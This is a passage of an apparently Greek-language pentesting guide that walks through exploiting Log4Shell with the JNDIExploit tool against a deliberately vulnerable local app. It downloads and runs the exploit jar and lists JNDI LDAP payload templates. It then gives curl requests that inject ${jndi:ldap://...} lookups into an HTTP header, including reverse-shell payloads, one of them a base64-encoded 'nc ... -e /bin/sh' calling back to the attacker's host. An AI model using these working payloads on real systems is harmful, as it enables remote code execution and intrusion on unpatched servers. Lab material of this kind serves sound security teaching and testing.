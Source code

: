 ### RCE - **JNDIExploit**

{% hint style="info" %}
Σημειώστε ότι για κάποιο λόγο ο συγγραφέας αφαίρεσε αυτό το έργο από το github μετά την ανακάλυψη του log4shell. Μπορείτε να βρείτε μια αποθηκευμένη έκδοση στο [https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2](https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) αλλά αν θέλετε να σεβαστείτε την απόφαση του συγγραφέα, χρησιμοποιήστε μια διαφορετική μέθοδο για να εκμεταλλευτείτε αυτήν την ευπάθεια.

Επιπλέον, δεν μπορείτε να βρείτε τον πηγαίο κώδικα στη wayback machine, οπότε είτε αναλύστε τον πηγαίο κώδικα, είτε εκτελέστε το jar γνωρίζοντας ότι δεν ξέρετε τι εκτελείτε.
{% endhint %}

Για αυτό το παράδειγμα μπορείτε απλά να τρέξετε αυτόν τον **ευάλωτο web server για το log4shell** στη θύρα 8080: [https://github.com/christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app) (_στο README θα βρείτε πώς να το τρέξετε_). Αυτή η ευάλωτη εφαρμογή καταγράφει με μια ευάλωτη έκδοση του log4shell το περιεχόμενο της κεφαλίδας HTTP αιτήματος _X-Api-Version_.

Στη συνέχεια, μπορείτε να κατεβάσετε το αρχείο jar **JNDIExploit** και να το εκτελέσετε με:
```bash
wget https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 172.17.0.1 -p 8888 # Use your private IP address and a port where the victim will be able to access
```
Μετά την ανάγνωση του κώδικα μόνο για μερικά λεπτά, στα _com.feihong.ldap.LdapServer_ και _com.feihong.ldap.HTTPServer_ μπορείτε να δείτε πώς **δημιουργούνται οι διακομιστές LDAP και HTTP**. Ο διακομιστής LDAP θα κατανοήσει ποιο payload πρέπει να εξυπηρετηθεί και θα ανακατευθύνει το θύμα στον διακομιστή HTTP, ο οποίος θα εξυπηρετήσει την εκμετάλλευση.\
Στο _com.feihong.ldap.gadgets_ μπορείτε να βρείτε **ορισμένα συγκεκριμένα gadgets** που μπορούν να χρησιμοποιηθούν για να εκτελέσουν την επιθυμητή ενέργεια (πιθανώς να εκτελέσουν αυθαίρετο κώδικα). Και στο _com.feihong.ldap.template_ μπορείτε να δείτε τις διαφορετικές κλάσεις προτύπων που θα **δημιουργήσουν τις εκμεταλλεύσεις**.

Μπορείτε να δείτε όλες τις διαθέσιμες εκμεταλλεύσεις με **`java -jar JNDIExploit-1.2-SNAPSHOT.jar -u`**. Ορισμένες χρήσιμες είναι:
```bash
ldap://null:1389/Basic/Dnslog/[domain]
ldap://null:1389/Basic/Command/Base64/[base64_encoded_cmd]
ldap://null:1389/Basic/ReverseShell/[ip]/[port]
# But there are a lot more
```
Έτσι, στο παράδειγμά μας, έχουμε ήδη αυτήν την ευάλωτη εφαρμογή docker να τρέχει. Για να την επιτεθούμε:
```bash
# Create a file inside of th vulnerable host:
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'

# Get a reverse shell (only unix)
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/ReverseShell/172.17.0.1/4444}'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/Command/Base64/bmMgMTcyLjE3LjAuMSA0NDQ0IC1lIC9iaW4vc2gK}'
```
Όταν στέλνετε τις επιθέσεις, θα δείτε κάποια έξοδο στο τερματικό όπου εκτελέσατε το **JNDIExploit-1.2-SNAPSHOT.jar**.
